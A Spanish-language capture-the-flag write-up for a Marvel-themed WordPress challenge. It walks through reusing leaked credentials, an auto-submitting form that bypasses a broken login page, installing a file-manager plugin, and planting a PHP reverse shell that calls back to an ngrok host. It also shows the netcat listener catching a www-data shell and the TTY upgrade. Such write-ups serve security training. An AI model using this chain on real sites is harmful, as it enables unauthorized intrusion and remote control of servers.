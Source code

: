 
Carol Danvers, la legendaria piloto y protectora intergaláctica, ha sorprendido a aliados y adversarios por igual al revelar una faceta inédita de su poder. Lejos de limitarse a combatir amenazas cósmicas, ahora se atreve a retar al sistema mediante una página web [http://20.115.58.237/](http://20.115.58.237/) secreta en la que comparte detalles de sus misiones y estrategias, desafiando a cualquiera que intente detenerla.

¿Serás capaz de infiltrarte en su red y descubrir qué información está protegiendo?

## Solucion

- La clave de acceso se consiguió del reto anterior de OSINT:  `Más allá de lo visible`

```
CarolDanvers
L#@ws!OVanBc87%hJ5
```

- El formulario de login de wordpress estaba alterado y no permitía el acceso, enviaba la solicitud usando GET y omitía el nombre de usuario
```html
<script>
    document.addEventListener("DOMContentLoaded", function() {
        alert("🚫 NUNCA PODRÁS ACCEDER 🚫");
    });
</script>

		<form nam" id="" action="" NO TIENES ACCESO  method="" >
			<p>
				<label for="usen">Usern Address</label>
				<input type="textame="log" id="ugin" class="input" value="" size="20" autocapitalize="off" autocomplete="username" required="required" />
			</p>

			<div class="user-pass-wrap">
				<label for="user_pass">Contraseña</label>
				<div class="wp-pwd">
					<input type="password" name="pwd" id="user_pass" class="input password-input" value="" size="20" autocomplete="current-password" spellcheck="false" required="required" />
					<button type="button" class="button button-secondary wp-hide-pw hide-if-no-js" data-toggle="0" aria-label="Mostrar contraseña">
						<span class="dashicons dashicons-visibility" aria-hidden="true"></span>
					</button>
				</div>
			</div>
						<p class="forgetmenot"><input name="rememberme" type="checkbox" id="rememberme" value="forever"  /> <label for="rememberme">Recuérdame</label></p>
			<p class="submit">
				<input type="submit" name="wp-submit" id="wp-submit" class="button button-primary button-large" value="Acceder" />
									<input type="hidden" name="redirect_to" value="http://20.115.58.237/" />
									<input type="hidden" name="testcookie" value="1" />
			</p>
		</form>


```

- Creamos una formulario que nos permita acceder de manera indirecta usando las credenciales que ya teniamos

```php
<html>

<head>

    <title>Crunchify Login Page</title>
    <script>
        function loginForm() {
            document.myform.submit();
            document.myform.action = "http://20.115.58.237/";
        }
    </script>
</head>

<body onload="loginForm()">
<form action="http://20.115.58.237/wp-login.php" name="myform" method="post">
    <input type="text" name="log" value="CarolDanvers">
    <input type="password" name="pwd" value="L#@ws!OVanBc87%hJ5">
    <input type="submit" value="Login">
</form>

</body>

</html>
```

## Instalar plugin WP File Manager
- Una vez dentro de Wordpress, fui al Home del sitio, elegí Plugins, busque e instale el plugin `Wp-File-Manager` y elegi `Activar`
- Una vez instalado, me permitió navegar por los archivos de la instalación de Wordpress

## Instalar el reverse shell
- Modifique un archivo llamado `index1.php` y ahí puse el reverse shell
- El reverse shell utilizado es el que viene con kali linux `/usr/share/laudanum/php/php-reverse-shell.php`

```php

$ip = '8.tcp.ngrok.io';  // CHANGE THIS
$port = 19708;       // CHANGE THIS


```


```
ngrok tcp 4444

ngrok                                                                                                                                                                                         (Ctrl+C to quit)

❤  ngrok? We're hiring https://ngrok.com/careers                                                                                                                                                                                                              
Session Status                online
Account                       Hack (Plan: Free)
Version                       3.20.0
Region                        United States (us)
Web Interface                 http://127.0.0.1:4040
Forwarding                    tcp://8.tcp.ngrok.io:19708 -> localhost:4444                                                                                                                                    
Connections                   ttl     opn     rt1     rt5     p50     p90                                                                                                                                     
                              0       0       0.00    0.00    0.00    0.00   
```

```
rlwrap nc -lnvp 4444
listening on [any] 4444 ...
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 50258
Linux UbuntuScitum 6.8.0-1021-azure #25-Ubuntu SMP Wed Jan 15 20:45:09 UTC 2025 x86_64 x86_64 x86_64 GNU/Linux
 16:13:43 up 20 days,  8:40,  0 user,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU  WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ python3 -c 'import pty; pty.spawn("/bin/bash");'
www-data@UbuntuScitum:/$ export TERM=xterm
export TERM=xterm
www-data@UbuntuScitum:/$ stty rows 500 cols 400
stty rows 500 cols 400
www-data@UbuntuScitum:/$ cd /opt/S.H.I.E.L.D.
cd /opt/S.H.I.E.L.D.
www-data@UbuntuScitum:/opt/S.H.I.E.L.D.$ 

 


```